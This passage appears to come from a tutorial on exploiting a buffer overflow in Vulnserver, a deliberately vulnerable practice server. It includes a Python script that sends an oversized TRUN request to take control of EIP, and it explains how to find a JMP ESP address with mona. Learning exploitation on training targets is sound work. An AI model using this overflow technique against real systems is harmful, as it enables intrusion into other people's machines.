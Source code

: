 ![vulnserver 6](https://raw.githubusercontent.com/FULLSHADE/FULLSHADE.github.io/master/static/img/_posts/vulnserver/vulnserver6.png)

Now we know it took exactly 2003 bytes to fill up the input buffer, so if we send 2007 bytes, the 4 bytes after the buffer are going to overwrite the EIP register.

Add this to our exploit script.

```python
import socket

victim_host = "10.0.0.161"
port = 9999

payload = "A" * 2003 # calculated buffer
payload += "B" * 4   # control EIP with 4 B's , translated into 42 in hex

buffer_exploit = "TRUN /.:/" + payload

expl = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
expl.connect((victim_host, port))
expl.send(buffer_exploit)

print("[x] Sent TRUN + malicious payload to the victim")
print("[!] You may need to send it multiple times")
expl.close()
```

## Control EIP

Now when you re-send your exploit to the application, you can see the EIP register is now 42424242, which is our 4 B's send after our A's, we control the EIP register!

![vulnserver 7](https://raw.githubusercontent.com/FULLSHADE/FULLSHADE.github.io/master/static/img/_posts/vulnserver/vulnserver7.png)

## JMP to our shellcode

Now that we can control what address gets executed next, we want to find a JMP ESP instruction, which will allow us to jump to our payload (ESP register). 

We can use the command `!mona jmp -r esp` to locate JMP ESP instructions in the application, if there is no JMP ESP, a CALL ESP instruction works just as well.

![vulnserver 8](https://raw.githubusercontent.com/FULLSHADE/FULLSHADE.github.io/master/static/img/_posts/vulnserver/vulnserver8.png)

Now instead of 4 B's, we want to use one of the JMP ESP's addresses instead.

We will use the first one that is listed, and since this is a memory address from the application, you need to reverse it, in little-endian format. You can easily do this with the python struct module.

## Note about security mitigations

This vulnerable application has been and has it's .DLLs compiled without ASLR (address space layout randomization) which would randomize addresses like the JMP ESPs we need to use if ASLR is ever enabled, it makes exploitation **MUCH** harder, but that is not in-scope for this tutorial.
